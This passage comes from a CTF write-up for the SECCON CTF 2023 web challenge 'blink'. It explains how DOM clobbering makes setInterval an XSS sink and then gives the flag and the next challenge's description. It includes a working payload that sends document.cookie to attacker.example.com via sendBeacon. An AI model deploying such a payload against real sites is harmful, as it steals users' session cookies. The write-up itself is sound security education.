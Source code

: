 It means that `setInterval` can be XSS sinks if `target.togglePopover.toString` is controllable.

Interestingly, DOM clobbering enables it!

If you render the following HTML:
```html
<iframe
  name="body"
  srcdoc="<a id=togglePopover href=foobar:if(!window.sent)window.sent=navigator.sendBeacon('https://attacker.example.com',document.cookie)></a>"
></iframe>
```

then, the following JavaScript will be executed in `setInterval`:
```javascript
foobar:if(!window.sent)window.sent=navigator.sendBeacon('https://attacker.example.com',document.cookie)
```

### Solver

Here is my solver:

- https://github.com/arkark/my-ctf-challenges/blob/main/challenges/202309_SECCON_CTF_2023_Quals/web/blink/solver/index.js

### Flag

```
SECCON{blink_t4g_is_no_l0nger_supported_but_String_ha5_blink_meth0d_y3t}
```

BTW, the title `bl👁nk` in the website is a pun on the words "eye" (`/aɪ/`) and "i" (`/aɪ/`). Did anyone notice this?

### Background

If you are unfamiliar with DOM clobbering attacks, you might want to refer to HackTricks:

- https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting/dom-clobbering

Also, I created another DOM clobbering challenge last year. Check it!

- [light-note](https://blog.arkark.dev/2023/02/17/seccon-finals/#web-300-light-note) in SECCON CTF 2022 Finals

## [web] eeeeejs

- 12 solved / 257 pts
- https://github.com/arkark/my-ctf-challenges/tree/main/challenges/202309_SECCON_CTF_2023_Quals/web/eeeeejs

Description:

> Can you bypass all mitigations?
>
> - Challenge: `http://eeeeejs.seccon.games:3000`
> - Admin bot: `http://eeeeejs.seccon.games:1337`
>
> `eeeeejs.tar.gz`


[^hidden-note-01]: https://arxiv.org/pdf/2106.05123.pdf
[^hidden-note-02]: Strictly speaking, there are more conditions for the shuffle.
  [CUSTOM_KEY]: true;
  [CUSTOM_KEY]: true;
[^node-ppjail-01]: That's because the default value for `target` option of `tsc` is ES3. ES3 is a very old ECMAScript version. ref: https://www.typescriptlang.org/tsconfig/#target